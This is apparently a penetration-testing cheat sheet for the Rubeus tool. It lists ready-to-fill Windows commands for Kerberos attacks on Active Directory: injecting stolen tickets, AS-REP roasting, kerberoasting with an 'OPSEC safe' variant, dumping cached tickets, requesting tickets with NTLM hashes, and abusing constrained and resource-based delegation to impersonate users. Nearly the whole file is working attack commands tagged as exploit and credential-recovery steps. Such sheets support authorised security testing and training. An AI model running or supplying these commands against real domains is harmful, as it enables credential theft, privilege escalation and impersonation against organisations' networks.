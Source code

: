 # rubeus

% ad, windows, rubeus

## inject ticket from file
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<ticket>
```

## inject ticket from b64 blob
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<BASE64BLOBHERE>
```

## check ASPREPRoast for all users in current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## ASREPRoast specific user
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /user:<user> /domain:<domain_name> /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## kerberoasting - current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

## Kerberoasting and outputing on a file with a spesific format
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name>
```

## Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /rc4opsec
```

## Kerberoast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /aes
```
 
## Kerberoast specific user account
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /user:<user> /simple
```

## get hash
#plateform/windows #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
.\Rubeus.exe hash /user:<user> /domain:<domain_name> /password:<password>
```

## dump - will dump any relevant cached TGS ticket’s stored
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe dump
```

## ask and inject ticket
#plateform/windows #target/remote #cat/ATTACK/CONNECT 
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain_name> /rc4:<ntlm_hash> /ptt
```

## S4U - with ticket - Contrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<user> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /ptt
```

## S4U - with hash - Constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /domain:<domain_name> /ptt
```

## get rc4 of machine with the password
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe hash /password:<machine_password>
```

## S4U - Resource based contrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:cifs/<domain_fqdn> /domain:<domain_name> /ptt
```

= ticket : c:\Temp\ticket.kirbi
= domain_fqdn : MYDC.mydomain.local
= domain_name : mydomain.local
= AS_REP_response_format : hashcat
